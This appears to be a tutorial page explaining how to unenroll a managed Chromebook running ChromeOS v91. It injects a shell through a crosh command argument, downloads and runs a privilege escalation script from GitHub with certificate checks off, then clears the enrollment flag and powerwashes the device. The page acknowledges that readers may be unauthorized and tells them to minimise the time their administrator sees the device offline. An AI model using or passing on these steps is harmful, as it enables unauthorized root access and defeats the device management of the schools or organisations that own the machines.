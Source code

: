```yaml
---
title: "v91 Unenrollment - Crosh"
pagination_next: fakemurk
pagination_prev: get-started
---
```


## Section I - Obtain Root Access

Inside of crosh, run the following command:

```sh
set_cellular_ppp \';bash;exit;\'
```

You should be dropped into a bash shell. If not, check the [troubleshooting guide](troubleshooting).

Now, run the following command to download and run the privilege escalation script:

```sh
cd ~/Downloads && curl -LOk https://raw.githubusercontent.com/luphoria/chromeos-rootable/master/privesc/privesc-91.sh && bash <(cat ~/Downloads/privesc-91.sh)
```

You should be dropped into a bash shell with a **red** prompt. If not, check the [troubleshooting guide](troubleshooting).

## Section II - Unenrolling and Powerwashing

Run the following command:

```sh
vpd -i RW_VPD -s check_enrollment=0
```

Now, we need to powerwash the device to fully unenroll. Run the following commands:

```sh
echo "fast safe" >/mnt/stateful_partition/factory_install_reset
reboot
```

After powerwashing, your Chromebook will behave like a personal device and will be completely unrestricted.

:::danger

Your administrator wil be able to see that your device is "offline", and you should spend as little time as possible in this state if you are not authorized to be following this tutorial.

:::

## Section III - Next Steps

:::tip[Next]

If you want to re-enroll but keep your Chromebook unrestricted, continue to [fakemurk](../fakemurk)

...or you could just keep your device like this, and use it as a personal device. The choice is yours.

:::